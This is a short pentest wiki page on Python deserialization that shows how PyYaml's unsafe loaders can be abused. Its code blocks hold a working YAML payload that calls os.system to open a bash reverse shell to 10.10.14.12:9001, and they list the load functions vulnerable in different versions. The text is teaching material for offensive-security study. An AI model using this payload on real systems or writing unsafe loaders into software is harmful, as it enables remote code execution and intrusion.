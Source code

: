 # Python Deserialization

## Theory

Python's built-in serialization modules, such as pickle and cPickle, PyYaml, are commonly used for serializing and deserializing data. However, if the deserialization process is not properly secured, it can be exploited by attackers to execute arbitrary code or perform other malicious activities.

## Practice

### PyYaml Deserialization

{% tabs %}
{% tab title="Enumerate" %}
Since **PyYaml** version **5.4**, the default loader for `load` has been switched to `SafeLoader` mitigating the risks against Remote Code Execution.&#x20;

The vulnerable sinks are now:

```python
import yaml
from yaml import Loader, UnsafeLoader
data = b'!!python/object/new:os.system ["bash -c \'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1\'"]'

yaml.load(data, Loader=UnsafeLoader)
yaml.load(data, Loader=Loader)
yaml.unsafe_load(data)
```

On PyYaml versions **>= 5.1  (and inferior to 5.4)** we can use following functions

```python
import yaml
from yaml import Loader, UnsafeLoader, FullLoader
data = b'!!python/object/new:os.system ["bash -c \'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1\'"]'

yaml.load(data) #works under certain conditions
yaml.load(data, Loader=Loader)
yaml.load(data, Loader=UnsafeLoader)
yaml.load(data, Loader=FullLoader)
yaml.load_all(data) #works under certain conditions
yaml.load_all(data, Loader=Loader)
yaml.load_all(data, Loader=UnsafeLoader)
yaml.load_all(data, Loader=FullLoader)
yaml.full_load(data)
yaml.full_load_all(data)
yaml.unsafe_load(data)
yaml.unsafe_load_all(data)
```

{% hint style="info" %}
In order for `load()` and `load_all()` to deserialize custom class objects, subprocess have to be imported if we use Popen in our payload. Serialized object of os.system won't works.
